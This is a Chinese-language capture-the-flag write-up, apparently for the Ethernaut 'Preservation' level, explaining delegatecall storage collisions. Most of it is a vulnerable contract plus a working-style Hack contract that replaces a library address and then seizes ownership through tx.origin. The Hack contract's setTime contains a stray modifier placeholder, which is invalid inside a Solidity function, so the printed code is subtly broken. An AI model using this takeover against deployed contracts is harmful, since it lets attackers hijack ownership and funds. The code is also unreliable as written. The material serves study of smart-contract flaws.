- `delegatecall` 只使用给定地址的代码，其他属性（存储、余额等）都取自当前合约，因此，调用 `delegatecall` 合约的存储布局必须和被调用合约保持一致
- 先利用 `setFirstTime` 修改合约 `Preservation` 的第一个状态变量，即 `timeZone1Library` 的值为合约 `Hack` 的地址，再调用 `setFirstTime` 函数，此时将执行合约 `Hack` 中的代码
    - `timeZone1Library` 如果修改错误则无法进行后续步骤，此时再重新申请一个实例

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }

  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

contract LibraryContract {

  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}

contract Hack {
  // Make sure the storage layout is the same as Preservation
  // This will allow us to correctly update the state variables
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;

  Preservation preservation;

  constructor(address instance) public {
      preservation = Preservation(instance);
  }

  function attack() public {
      // override address of timeZone1Library
      preservation.setFirstTime(uint(uint160(address(this))));
      // change the owner
      preservation.setFirstTime(1);
  }

  // function signature must match LibraryContract.setTimeSignature
  function setTime(uint _) public {
      owner = tx.origin;
      _;
  }
}
```

- 库应使用 `library` 来声明
- `library` 与 `contract` 类似，但不能声明任何状态变量或向其发送以太

### 参考资料

- [Delegatecall | Solidity by Example](https://solidity-by-example.org/hacks/delegatecall/)
- [Library | Solidity by Example](https://solidity-by-example.org/library/)